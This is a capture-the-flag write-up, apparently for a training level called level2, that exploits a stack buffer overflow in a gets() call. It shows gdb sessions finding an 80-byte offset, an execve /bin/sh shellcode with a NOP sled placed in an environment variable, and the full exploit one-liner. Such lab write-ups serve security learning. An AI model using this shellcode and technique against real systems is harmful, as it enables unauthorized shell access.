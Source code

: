 This program waits for an input and rewrite it in stdout with `puts` function and then exits. 

Just like the previous level, we want to segfault the programm by doing an overflow on `gets` function used in `p`.

We notice that if we want to go in the `if` condition, we have to give a specific adress : 

>  0x08048500 <+44>:	cmp    $0xb0000000,%eax

The adress is suppposed to be equal to `0xb0000000`, but no adress in the stack looks like this. So, if we want to pass the adress of something here, it has to be stored elsewhere.

First, we calculate the offset from the `eax` of `gets` to the `eip` of the `CMP` operation to know how much we have to overflow :

We put the first breakpoint right after the `gets` function :

> (gdb) br *0x080484f2   
> Breakpoint 1 at 0x80484f2

And a second breakpoint in the `CMP` operation :

>(gdb) br *0x08048500   
>Breakpoint 2 at 0x8048500

Then we run the program, and deduct the `eip` address from the `eax` address :

```
(gdb) r
Starting program: /home/user/level2/level2 


Breakpoint 1, 0x080484f2 in p ()
(gdb) x $eax
0xbffff6cc:	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048500 in p ()
(gdb) info frame
Stack level 0, frame at 0xbffff720:
 eip = 0x8048500 in p; saved eip 0x804854a
 called by frame at 0xbffff730
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame's sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
(gdb) p 0xbffff71c - 0xbffff6cc
$1 = 80
```

We now know that we have to overflow with 80 characters !

Since we cannot store a shellcode opening a shell in the stack, we are going to store it in the env :

```
export SHELLCODE=`python -c 'print("\x90"*200+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`
```

We put 200 'nop' instructions before the shellcode.


We write a small program in `/tmp` to print the address of the env variable :

```
#include <stdio.h>

int main(int argc, char**argv)
{
	printf("%p\n", getenv("SHELLCODE"));
	return (1);
}
```

Now we write our exploit :

`(python -c 'print "A" * 80 + "\x3e\x85\x04\x08" + "\xd2\xf8\xff\xbf"' ; cat) | ./level2`

Overflow of 80 char + address of the ret of `p` function + address of the shellcode

# Sources :

Where to find the shellcode :
- https://beta.hackndo.com/buffer-overflow/#pratique
